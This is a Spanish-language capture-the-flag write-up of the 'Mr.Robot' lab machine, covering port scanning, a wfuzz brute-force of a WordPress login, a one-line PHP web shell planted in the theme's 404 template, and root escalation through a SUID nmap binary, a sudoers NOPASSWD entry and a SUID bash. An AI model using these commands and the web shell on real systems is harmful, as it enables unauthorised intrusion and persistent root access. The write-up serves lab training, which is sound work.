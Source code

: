 ```yaml
---
layout: default
title: Mr.Robot CTF
parent: VulnHub
---
```

# Mr.Robot
{: .no_toc }

## Contenidos
{: .no_toc .text-delta}

1. TOC
{:toc}

---
{:.lead}
## Comentario:
Esta fue de las primeras maquinas que hice, inspirada en la serie **"Mr.Robot"**. Tiene una forma muy entretenida de resolver, comenzamos:

![](/assets/img/Mr.Robot/Mr.Robot1.png)

**Lista de lo que se vera en esta machine:**

* Reconocimiento de puertos
* Explotacion
* Escalada de privilegios usando SUDOERS

## Reconocimiento

```bash
sudo nmap -sS -p- 65535 --open --min-rate 5000 -vvv -n -Pn <IP-De la maquina>
```
O si quieres ir a lo loco:

```bash
nmap -T5 <IP- De la Maquina>
```
El caso, veremos puertos interesantes:

![](/assets/img/Mr.Robot/Mr1.png)

* 22 - SSH
* 80 - Http
* 443 - Https

Ahora lo que haremos sera ver los servicios y las versiones usadas tras los puertos, usando el comando:

```bash
nmap -sCV -p22,80,443 <IP>
```
![](/assets/img/Mr.Robot/Mr2.png)

Como podemos ver, tanto el puerto **80,443** nos llevan a una pagina web:

![](/assets/img/Mr.Robot/Mr3.png)

Para optimizar el proceso de enumeracion de directorios, tiraremos de un **Script**, propio de la herramienta nmap.

```bash
nmap --script=http-enum -p80 <IP De la Maquina>
```
![](/assets/img/Mr.Robot/Mr4.png)

Podemos ver directorios interesantes, como:
* **/robots.txt**
* **/wp-login.php**

Si vamos a la ruta robots veremos cosas interesantes:

![](/assets/img/Mr.Robot/Mr6.png)
![](/assets/img/Mr.Robot/Mr5.png)

Nos descargamos lo que parece ser un diccionario, el archivo **fsocity.dic**.

Y si lo analizamos, podremos ver que es un diccionario "extenso":

![](/assets/img/Mr.Robot/Mr7.png)
![](/assets/img/Mr.Robot/Mr8.png)

Pero si filtramos por el comando "sort", para ordenar si es que existen cadenas de texto iguales, podremos ver passwords repetidas, asi que eliminaremos eso y nos quedaremos solo con las **unicas** y lo almacenaremos en un nuevo diccionario.

![](/assets/img/Mr.Robot/Mr9.png)

## Intrusion

Ahora nos quedaria tirar de un ataque de fuerza bruta contra el directorio de login que descrubrimos anteriormente, "**/wp-login.php**"

Si tratamos de testear al usuario, veremos que "**admin**"" no es un usuario existente:

![](/assets/img/Mr.Robot/Mr10.png)

Pero si hemos visto la serie, uno de los personajes principales tiene de nombre **"Elliot Alderson"**, asi que veamos si existe el usuario "**elliot**"

![](/assets/img/Mr.Robot/Mr11.png)

Como podemos ver, el usuario es existente, por lo que trataremos de aplicarle **fuerza bruta** al campo de la password.
Usando la herramienta **burpsuite**, interceptaremos la peticion para obtener informacion importante:

![](/assets/img/Mr.Robot/Mr12.png)

Podemos ver cositas:
* La  cabecera lleva una "Cookie"
* El campo que queremos bruteforcear se fija en **log=elliot&pwd=Password**

Yo use la herramienta **wfuzz** para aplicar el ataque, pero puedes usar tranquilamente burpsuite pasandole el diccionario.

![](/assets/img/Mr.Robot/Mr13.png)

El comando utilizado fue:

```bash
wfuzz -c -u <URL De la Maquina>/wp-login.php -H "Cookie: <Cabecera que sacamos del burpsuite>" -d "log=elliot&pwd=FUZZ" -w <Ruta del diccionario que creamos>
```
Podemos ver que todas nos devuelven un estado 200, y una cantidad de respuesta igual a 3727, menos una password, **"ER28-0652"**, esta nos devuelve un codigo **302 - FOUND**. Por lo que esa es nuestra password.

![](/assets/img/Mr.Robot/Mr14.png)

Como podemos ver, entramos como el usuario Elliot, ahora nos toca buscar dentro de la interfaz algo que nos permita meternos de lleno dentro del servidor.

Si nos dirigimos a "Appeareance", podemos ver el codigo que se emplea para cuando se da un **"404 Not Found"**

![](/assets/img/Mr.Robot/Mr15.png)
![](/assets/img/Mr.Robot/Mr16.png)

Asi que como tenemos opcion de modificar la funcion, le introducimos un codigo php malicioso:

```php
<?php
  system($_GET['cmd']);
>
```
![](/assets/img/Mr.Robot/Mr17.png)

Esto nos permite ejecutar codigo directamente en el sistema, usando php como interprete.

![](/assets/img/Mr.Robot/Mr18.png)

Por lo que nos queda introducir nuestra reverse shell y ganar acceso a la maquina:

![](/assets/img/Mr.Robot/Mr19.png)

Entonces, nos queda buscar si existen binarios con permisos **SUID** o similares:

## Escalada de Privilegios (PRIVESC)

![](/assets/img/Mr.Robot/Mr20.png)

Podemos ver que tenemos un binario de **nmap**, pero si vemos la version, vamos a toparnos con que es muy desactualizada, asi que vamos a nuestra pagina de confianza [GTFOBINS](https://gtfobins.github.io)

![](/assets/img/Mr.Robot/Mr21.png)

Ejecutamos el comando binario como nos lo indica, y podemos ejecutar comandos como root:

![](/assets/img/Mr.Robot/MrRobot21.png)

En este caso, podemos explotar el fichero de **/etc/sudoers**, para no introducir password, o podemos darle permisos de super usuario al binario de **/bin/bash**:

Para el sudoers:

```bash
echo "ALL ALL=(ALL) NOPASSWD: ALL" | tee -a /etc/sudoers
```
Para el binario de **bash**

```bash
chmod u+s /bin/bash
```
Para finalizar, si estas en **TryHackMe**, aqui te doy la forma rapida de tener las llaves:

![](/assets/img/Mr.Robot/Mr22.png)

## FIN



